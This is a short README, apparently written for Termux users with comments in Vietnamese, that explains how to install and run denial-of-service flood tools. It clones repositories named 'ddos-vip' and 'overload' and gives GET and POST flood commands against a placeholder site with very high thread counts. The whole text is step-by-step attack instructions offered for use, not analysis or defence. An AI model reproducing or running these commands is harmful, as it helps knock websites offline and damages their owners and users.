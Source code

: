 # Setup
pkg install golang

pkg install openjdk-17
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 5000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 5000 post 5000 header.txt
# Java DDoS siêu bá cân all web
java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py
